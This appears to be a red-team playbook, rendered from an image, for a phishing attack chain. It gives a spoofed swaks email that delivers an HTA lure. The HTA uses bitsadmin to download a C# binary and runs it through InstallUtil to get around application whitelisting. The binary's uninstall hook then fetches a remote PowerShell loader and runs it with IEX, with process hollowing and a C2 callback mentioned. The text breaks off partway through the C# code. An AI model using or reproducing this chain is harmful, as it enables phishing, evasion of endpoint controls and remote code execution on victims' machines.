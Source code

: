 * `file.hta` (JScript) → downloads `bypass.exe` then runs `InstallUtil.exe /U`.
* `Bypass.exe` (C# Installer class) → on uninstall, downloads & executes `run.txt`.
* `run.txt` (PowerShell) → loader (e.g., Process Hollowing).

**1) Stage files on web root** (e.g., `http://<HTTP_HOST>/`)
Place `file.hta`, `bypass.exe`, `run.txt` on the same host.

**2) (Optional) Prepare listener/C2**
If `run.txt` calls back, bring the listener up before delivery.

**3) Deliver the lure (email with HTA link)**

```bash
swaks --body 'Issues with the ERP system:  http://<HTTP_HOST>/file.hta' \
  --add-header "Really: 1.0" \
  --add-header "Content-Type: text/html" \
  --header "Subject: Important" \
  -t bob@xyz.com -f alice@xyz.com --server <HTTP_HOST>
```

**Snippets**

`file.hta`

```html
<html>
<head>
<script language="JScript">
var shell = new ActiveXObject("WScript.Shell");
var cmd = "cmd.exe /c bitsadmin /transfer job /download /priority high http://<HTTP_HOST>/bypass.exe C:\\Windows\\Tasks\\warhead.exe & C:\\Windows\\Microsoft.NET\\Framework64\\v4.0.30319\\InstallUtil.exe /logfile= /LogToConsole=false /U C:\\Windows\\Tasks\\warhead.exe";
var res = shell.Run(cmd, 0, true);
</script>
</head>
<body>
<script language="JScript">self.close();</script>
</body>
</html>
```

`Bypass.exe` (C# Installer)

```csharp
using System;
using System.Management.Automation;
using System.Management.Automation.Runspaces;
using System.Configuration.Install;

namespace Bypass
{
    class Program
    {
        static void Main(string[] args)
        {
            Console.WriteLine("Nothing going on in this binary.");
        }
    }

    [System.ComponentModel.RunInstaller(true)]
    public class Sample : Installer
    {
        public override void Uninstall(System.Collections.IDictionary savedState)
        {
            String cmd = "(New-Object System.Net.WebClient).DownloadString('http://<HTTP_HOST>/run.txt') | IEX";
            Runspace rs = RunspaceFactory.CreateRunspace();
            rs.Open();
            PowerShell ps = PowerShell.Create();
```
